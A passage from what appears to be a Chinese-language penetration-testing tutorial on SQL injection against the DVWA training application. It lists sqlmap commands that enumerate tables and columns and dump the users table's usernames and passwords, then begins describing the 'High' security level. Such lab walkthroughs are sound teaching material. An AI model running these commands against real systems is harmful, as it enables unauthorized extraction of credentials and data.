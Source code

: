    图 5-41

   

2. 使用 SQLMap 命令 `sqlmap -r /root/post.txt -D dvwa --table`，查询表名

3. 使用 SQLMap 命令 `sqlmap -r /root/post.txt -D dvwa -T users --columns`，查询字段名

4. 使用 SQLMap 命令 `sqlmap -r /root/post.txt -D dvwa -T users -C user,password --dump`，查询用户名和密码内容

------

#### 5.4 High 级别 SQL 注入实战

1. 设置安全级别为 `High`，点开 SQL 注入页面，发现没有输入框，点击 `here to change your ID`，跳转到新窗口输入查询信息。分离了输入页面和显示结果页面，防止使用 `SQLMap` 等工具进行自动化注入。同时，确认该页面参数提交方式为 `POST`，如图 5-42

   

   ![img](../../img/15618195806056.jpg)

   图 5-42
